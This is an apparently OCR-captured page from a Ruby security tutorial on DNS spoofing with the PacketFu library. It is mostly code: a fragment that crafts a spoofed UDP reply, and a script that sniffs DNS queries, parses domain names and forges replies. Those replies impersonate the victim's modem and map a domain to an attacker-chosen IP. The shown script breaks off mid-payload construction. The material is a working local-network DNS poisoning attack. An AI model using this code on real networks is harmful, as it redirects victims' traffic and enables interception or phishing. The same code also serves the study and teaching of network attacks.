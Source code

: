 ```ruby
spoofing_ip = "69.171.234.21"
spoofing_ip.split('.').map {|octet| octet.to_i}.pack('c*')

  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst
  response.udp_dst   = packet.udp_src
  response.ip_saddr  = packet.ip_daddr
  response.ip_daddr  = "192.168.0.21"
  response.eth_daddr = "00:0C:29:38:1D:61"
```

Wrapping up

```ruby
#!/usr/bin/env ruby
# -*- coding: binary -*-

# Start the capture process
require 'packetfu'
require 'pp'
include PacketFu


def readable(raw_domain)

  # Prevent processing non domain
  if raw_domain[0].ord == 0
    puts "ERROR : THE RAW STARTS WITH 0"
    return raw_domain[1..-1]
  end

  fqdn = ""
  length_offset = raw_domain[0].ord
  full_length   = raw_domain[ 0..length_offset ].length
  domain_name   = raw_domain[(full_length - length_offset)..length_offset]

  while length_offset != 0
    fqdn << domain_name + "."
    length_offset = raw_domain[full_length].ord
    domain_name   = raw_domain[full_length + 1 .. full_length + length_offset]
    full_length   = raw_domain[0 .. full_length + length_offset].length
  end

  return fqdn.chomp!('.')
end

#
# Send Response
#
def spoof_response(packet, domain)

  attackerdomain_name = 'rubyfu.net'
  attackerdomain_ip   = '54.243.253.221'.split('.').map {|oct| oct.to_i}.pack('c*')  # Spoofing IP

  # Build UDP packet
  response = UDPPacket.new(:config => PacketFu::Utils.ifconfig("wlan0"))
  response.udp_src   = packet.udp_dst             # source port
  response.udp_dst   = packet.udp_src             # destination port
  response.ip_saddr  = packet.ip_daddr            # modem's IP address to be source
  response.ip_daddr  = packet.ip_saddr            # victim's IP address to be destination
  response.eth_daddr = packet.eth_saddr           # the victim's MAC address
  response.payload   = packet.payload[0,1]        # Transaction ID
  response.payload  += "\x81\x80"                 # Flags: Reply code: No error (0)
  response.payload  += "\x00\x01"                 # Question: 1
```
